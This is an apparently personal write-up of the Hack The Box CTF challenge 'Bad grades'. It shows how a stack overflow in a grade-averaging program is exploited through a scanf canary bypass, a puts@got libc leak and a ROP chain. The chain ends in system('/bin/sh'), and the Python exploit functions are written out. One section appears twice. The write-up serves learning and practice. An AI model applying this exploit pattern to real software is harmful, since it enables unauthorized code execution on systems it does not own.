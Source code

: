 
# HTB Challenge: Bad grades

*"You are not interested in studying for school anymore, you only play CTFs and ?challenges! 
Your grades fell off a cliff! I will take your laptop away if you continue like this". 
You need to do something to raise them before your parents ground you forever.."*


![PWNED](https://raw.githubusercontent.com/Lixhr/HackTheBox/refs/heads/main/PWN/easy/bad_grades/attachments/has_been_pwned.png)

"Bad grades" is an easy-level binary exploitation box. 
Given an ELF and his linked libc.so, i had to find a way to control the program's execution flow. 

I consider it as an introduction to ret2libc and ROP chains.

&nbsp;
## Information Gathering

First of all, i had to find necessary informations about the executable and its lib.

The ELF is a x64, with NX and Canay enabled. Consider that the PIE is disabled. 

With the PIE disabled, the function's addresses doesn't change from an execution to another. 
We will have to deal with Canary, take it in note for later. 

  ![ELF_CHECKSEC](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/elf_checksec.png?raw=true)


Consider that PIE is enabled on the libc. 
So we need to leak its base address in order to execute system()

  ![LIBC](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/libc_checksec.png?raw=true)
  
The program is quite simple. 
The student can view his grades, or create a new average.

When creating an average, the user inputs a *number of grades*, then fills the notes one by one.

  ![PROGRAM_OVERVIEW](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/program_screen.png?raw=true)

&nbsp;
## Reversing the binary  


Let's ask Ghidra to decompile the binary and see what's under the hood.

There are three main functions.
- menu(), that redirects the user in the two functions below. 
- view_grades(), that displays arbitrary grades. Nothing intresting found here.
- new_grades() , asking the user for his grades.

The main problem is in new_grades(). Let's clean it up and analyze it.

        void    new_grades(void)
        {
            long in_FS_OFFSET;
            int nbr_of_grades;
            double total;
            double dbl_array [33];
            long local_10;
            
            local_10 = *(long *)(in_FS_OFFSET + 0x28);
            total = 0.0;
            color_choice("Number of grades: ",&DAT_004012d8,&DAT_00401304);
            scanf("%d",&nbr_of_grades);
            for (int i = 0; i < nbr_of_grades; i++) 
            {
                printf("Grade [%d]: ",i + 1);
                scanf("%lf", dbl_array[i]);
                total += dbl_array[i];
            }
            printf("Your new average is: %.2f\n",total / (double)nbr_of_grades);
            if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) 
                __stack_chk_fail();
            return;
        }
All the grades are stored in dbl_array[33], but no validations are made on the user input.

It obviously leads to a stack buffer overflow. 
Let's try to override the buffer with 34 entries



  ![CANARY](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/canary.png?raw=true)

Here is our stack canary, just after our array. And now?
&nbsp;
## Bypassing canary

I first tried to bruteforce the canary's value, but it took long time. 
It was frustrating to wait before every try of my exploit.

I finally found a way to make scanf a "ghost" read, by justt passing a ".".
There is no integer, nor decimal. Nothing is written and our canary is still here.

- https://ir0nstone.gitbook.io/notes/misc/scanf-bypasses
&nbsp;
## Finding the rip offset

We can write arbitrary data on the stack. 
We now want to override rip value with our beautiful "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.

Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple.
Let's call system("/bin/sh")

&nbsp;
## Leaking the libc address


![ret2plt](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/functions.png?raw=true)

Sadly, we don't have system() linked in our executable. 
Whe have to ret2plt, in order to leak the libc address.

By calling puts@plt and passing the GOT entry of puts as a parameter. 
This causes puts to print out its own address in libc.

Base address changes at every execution. 
But the padding between each functions is always the same. 
If we can leak the puts@got address, we can guess the system@got.

    def leak_addr(func):
        leak_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            elf.got['puts'],  # puts@got
            elf.plt['puts'],
            0x00401108 # return to main
        ]
        prepare_rop(len(leak_ropchain) + array_offset + canary_offset)
        send_ropchain(leak_ropchain)
        p.recvuntil(b"Your new average is:")
        p.recvline()
        leak = p.recvline() 
        leak = format_addr(leak)
        libc.address = leak - libc.sym['puts']
        success(f"Libc base address : {hex(libc.address)}")

Let's call puts@plt, and leak the puts@got. 
We need a little cleaning on the address to convert it in its decimal representation. 
Don't forget to return to main.

![address](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/address.png?raw=true)

The hard work is done. The program asks us to re-overflow it.
&nbsp;
## Finding the rip offset

We can write arbitrary data on the stack. 
We now want to override rip value with our beautiful "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.

Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple. 
Let's call system("/bin/sh")


&nbsp;
## system()

Let's keep the same pattern:

    def exploit():
        exploit_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            next(libc.search(b'/bin/sh')),
            libc.sym['system'],
        ]
        prepare_rop(array_offset + canary_offset + len(exploit_ropchain) + 1)
        p.sendline(b"0.0") 
        info("Sending payload...")
        info(f"System : {hex(exploit_ropchain[2])}")
        info(f"/bin/sh: {hex(exploit_ropchain[1])}")
        send_ropchain(exploit_ropchain)
        p.interactive()

Find a "/bin/sh" address on the libc, it's a common gadget.

After pushing it into RDI (1st arg), just execute system(). 
A shell returns, and asks you to cat flag.

![system](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/final.png?raw=true)